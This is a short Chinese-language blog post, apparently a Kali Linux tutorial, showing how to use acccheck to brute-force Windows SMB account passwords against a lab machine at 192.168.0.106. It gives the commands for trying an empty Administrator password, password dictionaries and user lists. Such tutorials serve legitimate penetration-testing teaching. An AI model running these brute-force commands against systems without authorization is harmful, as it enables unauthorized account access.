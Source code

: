 ```yaml
---
layout: post
title: Kali Linux使用acccheck破解Windows用户密码(SMB协议)
---
```


acccheck是设计用来破解使用SMB协议的Windows用户密码。

> SMB是一种网络通信协议,使用SMB协议可以实现不同类型设备之间数据传递。例如,文件、打印机共享也是基于这个协议。

acccheck就是使用perl包装了smbclient命令；

它使用暴力破解的方式试出Windows用户密码。

******

### 一个简单的例子：

* 打开共享的Windows一台；IP，192.168.0.106：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot-20162018.PNG)

* Kali Linux：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-20 18-34-08.png)

尝试使用Administrator，空密码：

{% highlight shell %}
# acccheck -t 192.168.0.106
{% endhighlight %}

尝试使用Administrator，密码字典：

{% highlight shell %}
# acccheck -t 192.168.0.106 -P password.txt
{% endhighlight %}

尝试使用用户文件，密码字典：

{% highlight shell %}
# acccheck -t 192.168.0.106 -U user.txt -P password.txt
{% endhighlight %}

使用字典破解一个用户：

{% highlight shell %}
# acccheck -t 192.168.0.106 -u tian -P dic.txt
{% endhighlight %}

结果保存在cracked文件中：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-20 19-07-34.png)